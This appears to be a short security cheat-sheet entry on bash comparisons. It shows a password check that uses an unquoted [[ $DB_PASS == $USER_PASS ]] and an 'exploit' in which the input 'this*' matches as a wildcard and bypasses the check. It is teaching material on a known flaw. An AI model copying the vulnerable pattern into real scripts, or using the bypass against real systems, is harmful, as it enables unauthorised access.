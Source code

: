 ## Bash Escape / Exploit

### Summary
- Bash Comparison

### Bash Comparison
- = and == are for string comparisons
- -eq are for numeric comparisons
**Example Vulnerable Code**
```
DB_PASS="thisisdbpass"; => Just for example, it's should be REDACTED
USER_PASS="i_dont_know_what_is_db_pass"

if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi
```
The result of that will be "Failed" because DB_PASS and USER_PASS does not match!\

**Exploit**
```
DB_PASS="thisisdbpass"; => Just for example, it's should be REDACTED
USER_PASS="this*" => asterisk character (*) it acts as a wildcard and matches any part of the string.

if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi
```